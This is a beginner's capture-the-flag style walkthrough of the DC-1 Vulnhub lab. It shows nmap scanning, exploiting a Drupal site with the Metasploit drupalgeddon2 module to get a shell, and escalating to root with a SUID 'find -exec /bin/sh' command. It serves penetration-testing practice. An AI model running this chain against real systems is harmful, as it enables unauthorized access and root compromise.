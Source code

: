 # DC1 Vulnhub Walkthrough

#### Description
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

  
  # Scaning
  
  ### Reconnaissance 
  
Sudo NetDiscover
  
![Screenshot from 2023-01-16 01-16-55](https://user-images.githubusercontent.com/108471951/212977979-8eb9986d-cfe5-43c1-94aa-c37492e289ed.png)

Firstly we have to identify the machine IP address using tool like NetDiscover 
### Nmap

nmap -sV 192.168.0.119 (service version scan)

![Screenshot from 2023-01-17 23-48-32](https://user-images.githubusercontent.com/108471951/212979611-b732a639-bb5c-40b0-a1b5-463c7ed54654.png)


It’s a drupal site. This is first time i seen a Site named Drupal


# Exploiting

msfconsole

search drupal

I have searched for exploit for drupal site in metasploit.
Found some exploits. By using them tried to Exploit 

![Screenshot from 2023-01-16 01-19-36](https://user-images.githubusercontent.com/108471951/212982113-653ef59b-b982-4041-b120-1c32feb029e2.png)




use1

show options

set rhosts [target IP]

exploit

![Screenshot from 2023-01-16 01-20-37](https://user-images.githubusercontent.com/108471951/212984577-492ed27c-4f35-4dfb-a98f-e6e3b2723fb3.png)


After trying some exploits [ exploit/unix/webapp/drupal_drupalgeddon2 ] worked and given a meterpeter shell


![Screenshot from 2023-01-18 00-26-17](https://user-images.githubusercontent.com/108471951/212987116-b5d5c9e3-e308-431c-92ce-ce00bcab8eee.png)


Then using the [shell] comannd I got a Shell

![Screenshot from 2023-01-19 00-41-24](https://user-images.githubusercontent.com/108471951/213274935-894ceccf-4251-4e8e-a05d-38a363400f3b.png)


# Privilege Escalation

Then I tried to change directory to root but its not worked , I dont have root privileges.


![Screenshot from 2023-01-19 00-43-04](https://user-images.githubusercontent.com/108471951/213276028-0d9b9a2d-ddc9-4ccd-bbde-43acd7b08ab1.png)



so in GTFOBins i find a script for gaining root accses 
https://gtfobins.github.io/gtfobins/find/#shell


find . -exec /bin/sh \; -quit


![Screenshot from 2023-01-19 01-03-23](https://user-images.githubusercontent.com/108471951/213277047-d1614401-d5ef-4ba0-ba13-d89743d653c9.png)


